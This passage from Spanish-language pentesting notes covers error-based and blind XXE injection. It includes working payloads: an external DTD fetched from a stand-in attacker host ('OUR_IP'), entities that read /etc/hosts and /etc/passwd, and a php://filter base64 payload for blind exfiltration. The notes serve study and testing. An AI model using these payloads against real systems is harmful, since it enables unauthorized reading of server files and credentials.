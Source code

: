 Primero, alojaremos un archivo DTD que contiene la siguiente carga útil:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY &#x25; content SYSTEM '%nonExistingEntity;/%file;'>">
```

La carga útil anterior define la `file`entidad del parámetro y luego la une con una entidad que no existe. En este caso, `%nonExistingEntity;` no existe, por lo que la aplicación web arrojaría un error diciendo que esta entidad no existe, junto con nuestra unión `%file;` como parte del error. Hay muchas otras variables que pueden causar un error, como un URI incorrecto o caracteres incorrectos en el archivo al que se hace referencia.

Ahora, podemos llamar a nuestro script DTD externo y luego hacer referencia a la entidad `error`, de la siguiente manera:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

![[Pasted image 20230124211547.png]]

Este método también se puede utilizar para leer el código fuente de los archivos. Todo lo que tenemos que hacer es cambiar el nombre del archivo en nuestro script DTD para que apunte al archivo que queremos leer (por ejemplo, `"file:///var/www/html/submitDetails.php"`).

otra carga util valida tambien puede ser esto:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> 
%eval; 
%error;
```

>[!note]
>Tenemos que quitar la estructura XML que se envia o crear una etiqueta erronea para generar un error y que se muestre la carga util

## Vulnerabilidades de Blind XXE

Las vulnerabilidades ciegas de XXE surgen cuando la aplicación es vulnerable a la inyección de XXE pero no devuelve los valores de ninguna entidad externa definida dentro de sus respuestas. Esto significa que la recuperación directa de archivos del lado del servidor no es posible, por lo que el XXE ciego es generalmente más difícil de explotar que las vulnerabilidades XXE normales.

Como no se refleja nada por la pagina web o la respuesta de la peticion, la unica interaccion la tendremos con nuestro equipo por un servidor web en python mandando una peticion por el XXE y viendo por el python si realiza la peticion a pesar de que no se muestre nada por la pantalla de la web.

nos creamos localmente el archivo **data.xml**:

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
```
